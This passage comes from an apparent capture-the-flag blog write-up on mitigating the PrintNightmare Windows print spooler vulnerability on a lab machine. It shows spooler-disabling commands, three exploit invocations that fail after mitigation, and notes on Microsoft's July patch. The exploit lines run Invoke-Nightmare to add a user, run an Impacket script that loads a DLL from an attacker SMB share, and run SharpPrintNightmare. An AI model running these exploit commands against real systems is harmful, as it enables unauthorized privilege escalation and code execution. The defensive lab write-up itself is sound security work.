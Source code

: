     
    
    *Evil-WinRM* PS C:\Users\0xdf\Documents> stop-service -name spooler -force
    *Evil-WinRM* PS C:\Users\0xdf\Documents> set-service -name spooler -startuptype disabled
    

The first disables the service currently, and the second will have it not
start on reboot. The second isn’t really important on a HTB machine, as it
will restore to a snapshot where the service is enabled and running, but I run
it here just to show the best practice.

Once this is done, `rpcdump.py @10.10.10.149 | grep MS-RPRN` no longer shows the service, and the exploit no longer works.

Invoke-Nightmare:

    
    
    *Evil-WinRM* PS C:\programdata> Invoke-Nightmare -NewUser "0xdf" -NewPassword "0xdf0xdf"
    [+] created payload at C:\Users\Chase\AppData\Local\Temp\nightmare.dll
    [!] failed to get current driver list
    

Impacket RCE:

    
    
    (venv) oxdf@parrot$ python3 CVE-2021-1675.py 'HEIST/hazard:stealth1agent@10.10.10.149' '\\10.10.14.200\share\AddUserDll.dll'
    [*] Connecting to ncacn_np:10.10.10.149[\PIPE\spoolss]
    [-] Connection Failed
    

SharpPrintNightmare:

    
    
    *Evil-WinRM* PS C:\programdata> .\SharpPrintNightmare.exe \programdata\AddUserDll.dll
    SharpPrintNightmare.exe : 
        + CategoryInfo          : NotSpecified: (:String) [], RemoteException
        + FullyQualifiedErrorId : NativeCommandError
    Unhandled Exception: System.ComponentModel.Win32Exception: The RPC server is unavailable
       at SharpPrintNightmare.Program.getDrivers()
       at SharpPrintNightmare.Program.Main(String[] args)
    

### July 6 Patch

From what I’ve been able to read, the July 6 patch for CVE-2021-34527 fixes
part of the vulnerability. Now administrator access is required to install any
unsigned printer driver. While there are plenty of cases of [signed
malware](https://arstechnica.com/gadgets/2021/06/microsoft-digitally-signs-
malicious-rootkit-driver/), this is still a solid step forward. Additionally
there’s a new registry key, `RestrictDriverInstallationToAdministrators`,
which will block all driver installation by non-administrator users, which
seems like a good thing to try, as it prevents local privilege escalation
entirely.

There is still a workaround for it, involving the “Point&Print” service. From
it’s updated [security bulletin](https://msrc.microsoft.com/update-
guide/vulnerability/CVE-2021-34527):
